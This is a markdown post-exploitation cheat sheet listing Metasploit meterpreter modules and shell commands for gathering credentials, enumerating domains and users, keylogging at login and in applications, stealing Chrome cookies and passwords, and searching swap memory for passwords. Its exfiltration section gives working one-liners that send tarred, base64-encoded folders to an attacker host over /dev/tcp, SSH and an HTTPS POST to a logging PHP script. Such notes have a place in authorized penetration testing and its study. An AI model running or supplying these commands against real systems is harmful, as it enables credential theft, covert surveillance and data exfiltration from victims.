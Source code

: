 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /groups`
* `whoami /all`
</br>__Powershell__</br>
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`
* Pilfering credentials from sqp memory
   * `swapon -s` or `cat /proc/swaps` -get swap partition
   * `strings </dev/sda5> | grep "password"` - search "password" text in the swap partition
* `./swap_digger.sh` - https://github.com/sevagas/swap_digger
 

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`

* `meterpreter> run post/multi/gather/*` - double tab to see all modules
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
**Windows**
* `meterpreter> run winenum`
* `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
* `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
* `meterpreter> run post/windows/gather/credentials/credential_collector`
  
**Linux**
* msf> `use post/linux/gather/enum_configs`
* msf> `use post/linux/gather/enum_system`
* msf> `use post/linux/*` - double tab to see options

**General Tactics**
* dump browser cache
* dump browser bookmarks
* setup sniffers on victim

## Other tools
* SessionGopher - dump local credentials (Windows)

# Data exfiltration
## Linux
* TCP socket with EBCDIC and Base64
   * attacker system: `nc -lvp 80 > datafolder.tmp`
   * target system: `taczcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker-IP>/80`
   * attacker machine: `dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar`
   * attacker machine: `tar xf datafolder.tar`
* SSH
   * target system: `tar zcf - /tmp/datafolder | ssh <user>@<attacker-IP> "cd /tmp; tar zxpf -"`
* POST request over HTTPS
   * attacker system: create php file (contact.php) to log data: `<? php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>`
   * attacker system: `php -S <IP>:8000`
   * target system: `curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<attacker-IP>/contact.php`
   * target system: `cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar`

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

